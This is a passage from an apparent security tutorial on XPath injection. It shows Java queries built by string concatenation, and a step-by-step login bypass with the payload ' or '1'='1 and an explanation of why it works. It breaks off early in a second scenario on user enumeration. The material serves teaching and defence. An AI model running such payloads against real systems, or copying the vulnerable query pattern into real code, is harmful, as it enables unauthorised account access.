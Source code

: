 **XML Data**:
```xml
<users>
    <user>
        <username>admin</username>
        <password>$ecretP@ss</password>
    </user>
</users>
```

**Vulnerable Query**:
```java
String query = "//user[username='" + username + "' and password='" + password + "']";
```

**Attack Steps**:

1. **Reconnaissance**: Test normal login
   ```
   Username: admin
   Password: wrongpass
   Result: Login failed (expected)
   ```

2. **Test for Injection**: Try basic payload
   ```
   Username: admin
   Password: ' or '1'='1
   Result: Login successful (VULNERABLE!)
   ```

3. **Explanation**:
   ```xpath
   Original: //user[username='admin' and password='$ecretP@ss']
   Injected: //user[username='admin' and password='' or '1'='1']
   ```
   
   The condition becomes: `(username='admin' and password='') or '1'='1'`
   
   Since `'1'='1'` is always true, the query returns the user node.

> **Assumption**: The attacker has direct access to the login form. In some cases, attackers might exploit API endpoints or mobile app backends.

---

### Scenario 2: User Enumeration

**Context**: A user search feature that returns matching users.

**Vulnerable Query**:
```java
String query = "//user[starts-with(username, '" + searchTerm + "')]";
```

**Attack Steps**:

1. **Normal Search**:
   ```
   Search: john
   Returns: john@example.com
   ```
